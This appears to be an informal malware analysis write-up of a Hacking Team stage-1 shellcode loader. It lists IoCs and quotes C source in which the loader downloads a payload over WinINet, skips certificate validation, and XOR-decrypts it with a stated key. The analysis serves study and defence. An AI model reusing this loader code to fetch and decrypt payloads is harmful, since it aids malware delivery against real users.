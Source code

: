 # Analysis for stage1 shellcode loader from hacking team

<figure><img src=".gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

Flowchart of code

<figure><img src=".gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

Network IoC

https://172\[.]20\[.]20\[.]164

```
Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; .NET4.0C; .NET4.0E; MDDRJS)
```

Infection IoC(dropped files)

2s5s7k8w8b4i.dat

9z8o5d9l0p6c.dat

<figure><img src=".gitbook/assets/1 (17).png" alt=""><figcaption></figcaption></figure>



Ok so wtf . Let's get it . Loader.sln or loader.c

<figure><img src=".gitbook/assets/1 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

ok so startup and from startup to asm ? what happens in asm ? pic(position independent code) shellcode. cool and what this do ? basically will do Loader(0xdeadbeef) why?? idk why they chose that address but at that address it should be unpacked code. anyway let's keep going and see what happens in debugger. Correction we do Loader(eax) and eax is an ip address with a .dat file ![](<.gitbook/assets/1 (4).png>)

Now if we follow the flow we go into loader&#x20;

<div>

<figure><img src=".gitbook/assets/1 (5).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src=".gitbook/assets/2 (1).png" alt=""><figcaption></figcaption></figure>

</div>

For now we will just skip LoadVtable as it ubiques and big and we will return to it after we finish analysing the rest of it's capabilities. Now we go and inspect DownloadAndDecryptTls.

<figure><img src=".gitbook/assets/1 (6).png" alt=""><figcaption></figcaption></figure>

DownloadAndDecryptTls

<div>

<figure><img src=".gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

 

<figure><img src=".gitbook/assets/1 (7).png" alt=""><figcaption></figcaption></figure>

 

<figure><img src=".gitbook/assets/2 (2).png" alt=""><figcaption></figcaption></figure>

</div>

Now a neat thing i notice during debugging.

<figure><img src=".gitbook/assets/1 (8).png" alt=""><figcaption></figcaption></figure>

Is that as you can see in the upper image and in the following snippet&#x20;

```
DWORD dwFileSize;
LPBYTE lpFileBuffer = DownloadAndDecryptTls(&pVtable, lpLoaderConfig->strUserAgent, 
		lpLoaderConfig->strUrl, 
		&dwFileSize, 
		lpLoaderConfig->dwXorKey, 
		lpLoaderConfig->dwXorKey ? TRUE : FALSE); 
```

is that it lpLoaderConfig is dynamically retrived. but from where? well apprently it downloads or uses internally that .dat file ? and what that .dat file is . Inspecting the archive

<figure><img src=".gitbook/assets/1 (9).png" alt=""><figcaption></figcaption></figure>

we see another cool file shellcode\_0x95d. If we inspect it in hxd

<figure><img src=".gitbook/assets/1 (10).png" alt=""><figcaption></figcaption></figure>

you'll see a bunch of api calls amd that url. so basically this is the actual shellcode :) dope we will take a look at it after we finish with this.

Now just for later xor key is 0x6281f17f. Now for a brief analyisis till the interest point ValidateCa. Till there nothing really special happen in this function most interesting thins is thet call to InternetOpenA, which initialises dll for networking stuff. Neat will be to inspect it dynamically to see one trick they did. The do it in c code by

&#x20;`hOpen = lpTable->InternetOpenA(strUserAgent, INTERNET_OPEN_TYPE_PRECONFIG, NULL, NULL, 0);`

which is one less argument ot the api. Anyway enough talk let's see what it happens in code.

So in debugger this looks like this

<figure><img src=".gitbook/assets/1 (11).png" alt=""><figcaption></figcaption></figure>

So i guess what happens here is because it uses INTERNET\_OPEN\_TYPE\_PRECONFIG it uses preconfigured structure and lptable has already the url in it .

Anyways next we have ValidateCA

<figure><img src=".gitbook/assets/1 (12).png" alt=""><figcaption></figcaption></figure>

so anyways why do we do this cause is simply determins if wanna do https or http

```
DWORD dwHttpsFlag = 0;

if( ValidateCA(lpTable) )
	dwHttpsFlag = INTERNET_FLAG_SECURE;
else
	dwHttpsFlag = INTERNET_FLAG_SECURE|INTERNET_FLAG_IGNORE_CERT_CN_INVALID|INTERNET_FLAG_IGNORE_CERT_DATE_INVALID;
```

Than we do a simple get request and than download file from http. Nothing too fancy here. if you wonder if anything special about hte code here i think not probably u can find exmaples on internet how to do this .How does DownloadFile function dowload files? using InternetReadFileExA.

So anyways here's the code

```
if( hOpen )
	{
		hConnect = lpTable->fpInternetConnect(hOpen,  serverName, INTERNET_DEFAULT_HTTPS_PORT, NULL, NULL, INTERNET_SERVICE_HTTP, 0, 0 );

		if( hConnect )
		{
			hReq = lpTable->fpHttpOpenRequest(hConnect, strGet, strResource, strHTTPVersion, NULL, NULL, dwHttpsFlag, 0 );

			if( hReq )
			{

			if( !ValidateCA(lpTable) )
			{
				DWORD dwFlags;
				dwBuffLen = sizeof(dwFlags);	
				lpTable->fpInternetQueryOption(hReq, INTERNET_OPTION_SECURITY_FLAGS,(LPVOID)&dwFlags, &dwBuffLen);
				dwFlags |= SECURITY_FLAG_IGNORE_UNKNOWN_CA;
				lpTable->fpInternetSetOption(hReq, INTERNET_OPTION_SECURITY_FLAGS, &dwFlags, sizeof (dwFlags) );
			}

				if( lpTable->fpHttpSendRequest(hReq, NULL, 0, NULL, 0) )
				{
					dwBuffLen = 16;
					dwIdx = 0;

					lpTable->HttpQueryInfoW(hReq, HTTP_QUERY_CONTENT_LENGTH, strBuff, &dwBuffLen, &dwIdx);
					*dwFileLen = lpTable->wtoi((LPWSTR) strBuff);

					LPBYTE lpFileBuffer = (LPBYTE) lpTable->VirtualAlloc(NULL, *dwFileLen, MEM_COMMIT, PAGE_READWRITE);			
					if (DownloadFile(lpTable, hReq, lpFileBuffer, *dwFileLen))
					{
						if (bXored)
							lpPayload = Decrypt(lpFileBuffer, *dwFileLen, dwXorKey);
						else
							lpPayload = lpFileBuffer;
					}
					
				} // if( lpTable->fpHttpSendRequest )
			} // if( hReq )
		} // if( hConnect )
	} // if( hOpen )


	/* close handles */
	if( hReq )
		lpTable->fpInternetCloseHandle(hReq);
	if( hConnect)
		lpTable->fpInternetCloseHandle(hConnect);
	if( hOpen)
		lpTable->fpInternetCloseHandle(hOpen);

	return lpPayload;
```

Now let's inspect the decrypt if check to see if it enteres the decrypt function or not. Based on my assumptions when experimenting bXored will be true so we should enter the decrypt function. Unfortunatelly our assumption was wrong because

![](<.gitbook/assets/1 (15).png>)

```
lpTable->fpHttpSendRequest is being used in the id not bXored and since the server is down
```

we won't be able to send a request to that mallicous server. Now i could emulate a server with frida but to what end cause we already have the payload outselves. now only to dissasamble it and decide if it's encrypted or not . Now the decryption also looks like&#x20;

```
LPDWORD lpD = (LPDWORD) lpBuffer;
LPBYTE lpB = (LPBYTE) lpBuffer;

for (UINT i=0; i<dwBuffLen/4; i++)
	lpD[i] ^= dwXorKey;
for (UINT i=dwBuffLen - (dwBuffLen%4); i<dwBuffLen; i++)
	lpB[i] ^= 0x41;

return lpBuffer;
```

which is a 2 key xor and dwXorkey is 0x6281f17f.

Now back to Loader function to solve the last part of the loader.

<figure><img src=".gitbook/assets/1 (16).png" alt=""><figcaption></figcaption></figure>
